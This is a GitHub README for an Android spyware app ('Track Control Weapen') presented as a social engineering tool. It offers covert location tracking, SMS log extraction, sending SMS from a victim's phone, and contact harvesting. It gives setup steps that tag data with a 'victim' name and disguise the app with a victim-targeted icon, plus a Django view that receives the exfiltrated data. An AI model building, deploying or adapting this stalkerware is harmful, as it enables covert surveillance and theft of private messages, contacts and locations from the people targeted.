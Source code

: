 <center> <h1> Track Control Weapen </h1> </center>


## Overview
This mobile app offers multiple modes of Social Engineering operation:
1. **Exact Location Tracking**: Track the exact location of the device.
2. **SMS Log Extraction**: Extract SMS logs from the device.
3. **Sending SMS from Device**: Send SMS messages from the device.
4. **Contact Extraction**: Extract contact information from the device.
5. **Installed App List Extraction**: Retrieve a list of installed apps on the device.
6. **More features coming soon**: Additional features will be added in future updates.

Currently, only the Exact Location Tracker is completed.


## TODO List
- [x] Exact Location Tracker
- [x] SMS Log Extraction
- [x] Sending SMS from Device
- [ ] Contact Extraction
- [ ] Installed App list Extraction
- [ ] Additional features


## Setup Instructions
To set up the app, follow these steps:

1. **Configure `strings.xml`**:
    - Navigate to the `res/values` folder.
    - Create or edit the `strings.xml` file using the template below:

### strings.xml Template
```xml
<resources>
    <string name="app_name">Your App Name</string>
    <string name="victim">Name of victim to tag the received data</string>
    <string name="server_url">Server URL where POST request is created</string>
    <string name="SendSmsTo">Phone No</string>
    <string name="Message">Message body</string>
</resources>
```

2. **Change the app icon**:
    - Navigate to the `res` folder.
    - Replace the existing icon files in the `mipmap` folders with your target(victim) based icon files.

3. **Build and Run the App**:
    - Open your project in Android Studio.
    - Build and run the app on your device or emulator.

## Structure of the POST Request
The app sends data to the server using a POST request with the following structure:

- `name`: Assigned in the `strings.xml`
- `mv01`: Contains all raw text data sent by the app

### Example POST Request
```json
{
    "name": "victim name",
    "mv01": "this is sent data"
}
```


## Receiver End Setup

The receiver end can be a Django server hosted on PythonAnywhere (https://www.pythonanywhere.com/) for free. To handle the POST request, you can use the following view:

```python
from django.views.decorators.csrf import csrf_exempt
from django.views.decorators.http import require_POST
from django.http import JsonResponse
from .models import tracker_database

@csrf_exempt
@require_POST
def tracker_database_entry(request):
    if request.POST.get("mv01"):
        entry = tracker_database(
            plan_data=request.POST.get("mv01"),
            name=request.POST.get("name", "s")
        )
        entry.save()
        response = {'status': 'success'}
        return JsonResponse(response, status=201)
    else:
        response = {'status': 'failure', 'message': 'Invalid data'}
        return JsonResponse(response, status=400)
```


## Changing App Modes
You can change the app modes by altering the `private Integer AppType = 1;` value in `MainActivity`. The available modes are:

- `0` -- All: Enable all features [only extraction]. 
- `1` -- Location: Enable exact location tracking.
- `2` -- SMS: Enable SMS log extraction.
- `3` -- Send SMS: Enable sending SMS from the device.
- `4` -- Contact: Enable Contact log extraction.
- `5` -- Installed App: Enable Installed App list log extraction.



## Contribution
If you would like to contribute to the project, please follow these steps:
1. Fork the repository.
2. Create a new branch (`git checkout -b feature-branch`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature-branch`).
5. Create a new Pull Request.

## License
This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Contact
For any questions or suggestions, please contact [ss.shiivam.00@gmail.com].
